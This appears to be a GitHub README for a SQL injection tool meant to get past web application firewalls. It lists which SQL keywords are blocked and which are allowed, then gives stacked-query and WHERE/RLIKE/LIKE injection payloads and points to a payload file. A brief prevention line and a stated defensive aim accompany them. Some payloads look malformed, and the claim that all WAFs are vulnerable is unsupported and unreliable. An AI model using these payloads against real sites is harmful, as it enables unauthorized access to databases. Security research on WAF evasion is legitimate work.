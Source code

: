 # SQL Injection Bypass WAF

This exploit is a critical bypass method for Web Application Firewalls (WAF) using alternative SQL injection techniques.

## Technique of Evasion

### Blocked Queries
- `OR`
- `UNION`
- `ORDER BY`
- `GROUP BY`
- `AND`
- `CASE`
- `CAST`
- `WHEN`
- `HAVING`

### Authorized Queries
- Stacked queries
- `WHERE`
- `LIKE`
- `RLIKE`

### Example Payloads
- Basic payloads to bypass WAF:
  - `; ' SHOW DATABASES;`
  - `' USE rr;`
  - `' SHOW TABLES;`

- Effective Queries:
  - `WHERE (1=1) -- -`
  - `RLIKE (1=1) -- -`
  - `LIKE (1=1) -- -`

## Prevention Techniques
To prevent this type of attack, it is recommended to:
- Use Object-Relational Mapping (ORM) frameworks and disable two-request SQL execution.

This project aims to upgrade existing WAFs to prevent SQL Injection vulnerabilities.

### Note
All payloads are available in the `payload.txt` file.

### Vulnerability Note
All WAFs are vulnerable to this attack, and it is crucial to implement the suggested prevention techniques to mitigate risks.

Thank you for your interest in enhancing web application security!
